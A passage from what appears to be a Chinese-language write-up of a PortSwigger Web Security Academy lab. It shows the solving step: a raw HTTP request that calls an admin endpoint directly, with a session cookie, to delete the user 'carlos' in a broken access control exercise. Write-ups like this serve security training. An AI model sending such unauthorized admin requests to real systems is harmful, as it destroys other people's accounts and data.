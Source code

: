 [![](assets/1705287960-ab25746abf5861821905e8d228ecc12d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104700-b1dfa110-b02b-1.png)

直接调用接口删除用户

```bash
GET /admin/delete?username=carlos HTTP/2
Host: 0a590059045ceec6801b80f6009c0010.web-security-academy.net
Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep
```

[![](assets/1705287960-db8a1453ade0bea2b586a65a5090842e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104717-bbe4377a-b02b-1.png)

随后完成解题  
[![](assets/1705287960-491b29f0fa9ea0a69956d2ecd0d169c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104727-c1c68300-b02b-1.png)
